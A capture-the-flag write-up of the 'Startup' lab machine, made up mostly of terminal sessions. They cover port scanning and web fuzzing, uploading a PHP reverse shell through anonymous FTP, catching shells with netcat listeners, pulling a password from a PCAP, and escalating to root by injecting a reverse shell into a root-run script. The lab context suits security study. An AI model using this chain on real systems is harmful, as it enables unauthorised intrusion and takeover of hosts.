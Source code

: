 An easy room with easy privilege escalation technique

Starting with the machine enumeration

```
┌──(kali㉿kali)-[~/Desktop/THM/Startup]
└─$ sudo nmap -sS 10.10.161.131 > open_ports.txt     
[sudo] password for kali: 
                                                                                                                                                 
┌──(kali㉿kali)-[~/Desktop/THM/Startup]
└─$ cat open_ports.txt 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-10 11:13 IST
Nmap scan report for 10.10.161.131
Host is up (0.43s latency).
Not shown: 997 closed tcp ports (reset)
PORT   STATE SERVICE
21/tcp open  ftp
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 4.66 seconds
```

```
┌──(kali㉿kali)-[~/Desktop/THM/Startup]
└─$ sudo nmap -sS -sV -sC -O -Pn -p21,22,80 10.10.161.131 > ports_scan.txt
                                                                                                                                                 
┌──(kali㉿kali)-[~/Desktop/THM/Startup]
└─$ cat ports_scan.txt 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-10-10 11:14 IST
Nmap scan report for 10.10.161.131
Host is up (0.42s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
| drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp [NSE: writeable]
| -rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
|_-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.4.101.169
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 b9:a6:0b:84:1d:22:01:a4:01:30:48:43:61:2b:ab:94 (RSA)
|   256 ec:13:25:8c:18:20:36:e6:ce:91:0e:16:26:eb:a2:be (ECDSA)
|_  256 a2:ff:2a:72:81:aa:a2:9f:55:a4:dc:92:23:e6:b4:3f (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Maintenance
|_http-server-header: Apache/2.4.18 (Ubuntu)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: Linux 5.4 (98%), Linux 3.10 - 3.13 (95%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Sony Android TV (Android 5.0) (93%), Android 5.0 - 6.0.1 (Linux 3.4) (93%), Android 7.1.1 - 7.1.2 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 4 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 33.83 seconds
```

FTP, with anonymous login allowed, SSH, waste of time without any key, or password, and HTTP.

Logging to the FTP server
```
┌──(kali㉿kali)-[~/Desktop/THM/Startup]
└─$ ftp 10.10.161.131 -a
Connected to 10.10.161.131.
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
229 Entering Extended Passive Mode (|||16893|)
150 Here comes the directory listing.
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 .
drwxr-xr-x    3 65534    65534        4096 Nov 12  2020 ..
-rw-r--r--    1 0        0               5 Nov 12  2020 .test.log
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

The JPG is an Among Us meme, the 'ftp' directory is empty, and the notice.txt is, I think, by the admin.

Also, fuzzing the IP:
```
┌──(kali㉿kali)-[~/Desktop/THM/Startup]
└─$ ffuf -u http://10.10.161.131/FUZZ -w /usr/share/seclists/Discovery/Web-Content/big.txt

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://10.10.161.131/FUZZ
 :: Wordlist         : FUZZ: /usr/share/seclists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

.htpasswd               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 2064ms]
.htaccess               [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 5065ms]
files                   [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 452ms]
server-status           [Status: 403, Size: 278, Words: 20, Lines: 10, Duration: 461ms]
:: Progress: [20476/20476] :: Job [1/1] :: 93 req/sec :: Duration: [0:03:47] :: Errors: 0 ::
```

The 'files' sub-directory contains the same files as the FTP server. This means the files directory is the FTP server. Uploading anything to the FTP server can be accessed from the website. I will be uploading
a PHP reverse shell to get a reverse shell on my terminal

```
ftp> cd ftp
250 Directory successfully changed.
ftp> put php_reverse_shell.php
local: php_reverse_shell.php remote: php_reverse_shell.php
229 Entering Extended Passive Mode (|||46360|)
150 Ok to send data.
100% |****************************************************************************************************|  3462       38.39 MiB/s    00:00 ETA
226 Transfer complete.
3462 bytes sent in 00:00 (3.87 KiB/s)
```

<img src=https://github.com/user-attachments/assets/122b67e1-bbcc-4c3a-be7f-a324d14fde6c>

I uploaded it to the empty ftp directory.

```
┌──(kali㉿kali)-[~/Desktop/THM/Startup]
└─$ nc -nlvp 4444
listening on [any] 4444 ...
connect to [10.4.101.169] from (UNKNOWN) [10.10.161.131] 47216
Linux startup 4.4.0-190-generic #220-Ubuntu SMP Fri Aug 28 23:02:15 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
 06:01:10 up 19 min,  0 users,  load average: 0.00, 0.01, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ whoami
www-data
```

There is an 'incidents' folder in the root directory that contains a PCAP file.

```
$ cd incidents
$ ls 
suspicious.pcapng
```

I copied the PCAP file to `/var/www/html/file/ftp`, where the reverse shell is uploaded, and downloaded the PCAP file to my machine.

I then used the 'strings' command to read the PCAP file in the terminal and found a password.

```
[sudo] password for www-data: 
^/Sorry, try again.
[sudo] password for www-data: 
c4ntg3t3n0ughsp1c3
sudo: 3 incorrect password attempts
www-data@startup:/home$ |
```

I tried this password with the current user; it was not this user's password. So I tried it with the user "Lennie"

```
www-data@startup:/incidents$ su lennie
su lennie
Password:

lennie@startup:/incidents$
```

Before this, I did have to stabilise the shell, which I did using Python.

Under the Lennie directory, there is a directory named 'scripts'. The root owns this directory, but Lennie has the read and execute permission.

```
lennie@startup:~/scripts$ ls
ls
planner.sh  startup_list.txt
lennie@startup:~/scripts$ cat startup_list.txt
cat startup_list.txt

lennie@startup:~/scripts$ cat planner.sh
cat planner.sh
#!/bin/bash
echo $LIST > /home/lennie/scripts/startup_list.txt
/etc/print.sh
lennie@startup:~/scripts$ cat /etc/print.sh
cat /etc/print.sh
#!/bin/bash
echo "Done!"


lennie@startup:~/scripts$ ls -l /etc/print.sh
ls -l /etc/print.sh
-rwx------ 1 lennie lennie 25 Nov 12  2020 /etc/print.sh
```

The planner.sh will copy whatever is in the LIST env variable to the startup_list.txt file and execute the print.sh file. I added a reverse bash shell in the print.sh file, opened a NetCat listener on my machine, and 
then executed the planner.sh file and gained the root shell

```
┌──(kali㉿kali)-[~/Desktop/THM/Startup]
└─$ nc -nlvp 9001
listening on [any] 9001 ...
connect to [10.4.101.169] from (UNKNOWN) [10.10.161.131] 48320
bash: cannot set terminal process group (20652): Inappropriate ioctl for device
bash: no job control in this shell
root@startup:~# whoami
whoami
root
```
